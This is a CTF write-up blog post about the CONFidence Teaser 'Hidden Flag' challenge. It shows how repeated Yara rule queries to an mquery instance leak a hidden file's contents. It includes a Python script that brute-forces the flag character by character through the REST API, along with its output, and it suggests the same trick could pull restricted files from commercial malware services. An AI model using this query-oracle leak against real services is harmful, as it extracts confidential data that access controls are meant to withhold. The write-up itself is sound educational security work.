 ```yaml
---
title: CONFidence Teaser CTF – Hidden Flag
author: Megabeets
type: 
date: 2020-03-15T10:57:56+00:00
url: /confidence-teaser-ctf-hidden-flag/
categories:
  - Writeups
tags:
  - CONFidence
  - CTF

---
```

During CONFidence Teaser CTF, one specific task caught my interest. Not because it was hard or complicated &#8211; it wasn&#8217;t, but because the concept behind it was interesting and relevant to my day-to-day work as a malware researcher. 

In this short article, I will show a **highly esoteric**, not to say **trivial**, concept in which you can leak the content of &#8220;sensitive&#8221; files on systems where scanning the files with Yara is allowed, but downloading the files is not possible. Not only that I&#8217;ll show how it was used, as an **intended solution**, to solve the &#8220;Hidden Flag&#8221; challenge on the CTF, but will also demonstrate how it can be used to retrieve the data of TLP;RED, or un-downloadable files on premium services such as Hybrid-Analysis, where the major limitation is the bandwidth.

Let&#8217;s not move too fast and start from the beginning, the CTF challenge. On &#8220;Hidden-Flag&#8221;, the most solved challenge in this CTF, we are given an online instance of [mquery][1], a &#8220;YARA malware query accelerator&#8221;. In other words, the system lets you run your Yara rules on a repository of files, very fast. The flag, as it seems, exists in the content of a file found the corpus of files that are indexed and scanned by _mquery_. As a malware researcher, and as a [cert.pl][2] old fanboy, I was already familiar with _mquery_ and experienced with using it. 

The initial idea was to extract the flag using boolean queries of Yara rules. To prove that this concept really works, I started from this sample rule:

<pre class="EnlighterJSRAW" data-enlighter-language="generic" data-enlighter-theme="" data-enlighter-highlight="" data-enlighter-linenumbers="" data-enlighter-lineoffset="" data-enlighter-title="" data-enlighter-group="">rule test {
  strings:
    $flag = "p4{"
  condition:
    $flag
}</pre>

And indeed, this simple rule showed that the concept is potentially possible and we can start slowly retrieving the flag. 

</p> <figure class="wp-block-image size-large">

<img src="../uploads/mquery-screenshot.png" /> </figure> 

In order to retrieve the rest of the flag, we can start to slowly &#8220;brute force&#8221; it character by character, hoping there will not be any &#8220;brute force&#8221; mitigation or similar limitation. Since I am familiar with the project, I know it has a REST API we can use for our help. For those of you who aren&#8217;t familiar, can figure this out from the [tests][3].

And indeed, we can quickly write a script to brute force the flag character by character.

<pre class="EnlighterJSRAW" data-enlighter-language="generic" data-enlighter-theme="" data-enlighter-highlight="" data-enlighter-linenumbers="" data-enlighter-lineoffset="" data-enlighter-title="" data-enlighter-group="">import string
import requests

QUERY_URL = "http://hidden.zajebistyc.tf/api/query/high"
MATCHES_URL = "http://hidden.zajebistyc.tf/api/matches/{}?offset=0&limit=50"

def request_query (query):
    res = requests.post(QUERY_URL, json={"method": "query", "raw_yara": query})
    res.raise_for_status()
    query_hash = res.json()["query_hash"]
    res = requests.get(MATCHES_URL.format(query_hash))
    if res.json()["job"]["status"] == "done":
        return res


# Define a rule tempplate

test_yara = """
rule find_flag {{
    strings:
        $flag = "{0}"
    condition:
        $flag
}}
"""

# Generate a list of potential characters
potential_chars = "-_}"+string.ascii_lowercase+string.digits+string.ascii_uppercase+"@!"  

# Start from the known prefix of the flag

flag = "p4{"

while True:
    print("[+] Found:",flag)
    for c in potential_chars:
        res = request_query(test_yara.format(flag + c))
        if len(res.json()["matches"]) > 0:
            flag += c
            break
    if c == "}":
        break

print("[+] Flag:", flag)

# flag is "p4{ind3x1ng-l3ak5}"</pre>

Let&#8217;s run the script and see the results come quickly:

<pre class="EnlighterJSRAW" data-enlighter-language="generic" data-enlighter-theme="" data-enlighter-highlight="" data-enlighter-linenumbers="" data-enlighter-lineoffset="" data-enlighter-title="" data-enlighter-group="">$ python3 solution.py

[+] Found: p4{
[+] Found: p4{i
[+] Found: p4{in
[+] Found: p4{ind
[+] Found: p4{ind3
[+] Found: p4{ind3x
[+] Found: p4{ind3x1
[+] Found: p4{ind3x1n
[+] Found: p4{ind3x1ng
[+] Found: p4{ind3x1ng-
[+] Found: p4{ind3x1ng-l
[+] Found: p4{ind3x1ng-l3
[+] Found: p4{ind3x1ng-l3a
[+] Found: p4{ind3x1ng-l3ak
[+] Found: p4{ind3x1ng-l3ak5
[+] Flag: p4{ind3x1ng-l3ak5}</pre>

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="../uploads/megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: https://github.com/CERT-Polska/mquery
 [2]: https://www.cert.pl/en/
 [3]: https://github.com/CERT-Polska/mquery/blob/master/src/tests/test_api.py
